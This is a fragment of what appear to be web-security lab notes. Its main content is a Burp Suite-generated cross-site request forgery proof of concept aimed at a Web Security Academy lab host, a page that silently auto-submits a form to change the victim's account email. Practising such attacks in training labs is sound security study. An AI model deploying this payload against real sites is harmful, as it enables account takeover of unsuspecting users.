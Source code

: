 <img src=".\图片\Snipaste_2023-07-28_10-25-40.png" alt="Snipaste_2023-07-28_10-25-40" style="zoom:80%;" />

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a1300b504328b3b846c1e1a008c0047.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="123456&#64;123&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
